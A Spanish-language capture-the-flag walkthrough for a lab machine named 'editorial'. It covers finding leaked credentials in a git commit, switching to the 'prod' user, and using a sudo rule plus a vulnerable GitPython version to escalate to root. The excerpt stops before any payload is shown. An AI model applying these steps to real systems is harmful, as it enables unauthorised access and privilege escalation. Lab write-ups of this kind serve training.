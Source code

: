 
Si investigamos el siguiente codigo de esta forma...

```shell
git show 1e84a036b2f33c59e2390730699a488c65643d28
```

Info:

```
+# -- : (development) mail message to new authors
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+    }) # TODO: replace dev credentials when checks pass
```

Vemos que estan las credenciales de `prod`...

```
User = prod
Password = 080217_Producti0n_2023!@
```

```shell
su prod
```

Y ya seriamos ese usuario, si hacemos `sudo -l` veremos lo siguiente...

```
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Por lo que podremos ejecutar ese comando como `root` pero vemos que tiene un `*` por lo que podremos utilizar ruta y ejecutar lo que queramos, pero como `git`, si hacemos lo siguiente...

```shell
pip3 list
```

Info:

```
GitPython             3.1.29
```

Vemos que es una version vulnerable de `git` por lo que haremos lo siguiente...

```shell
nano /tmp/payload.py
```
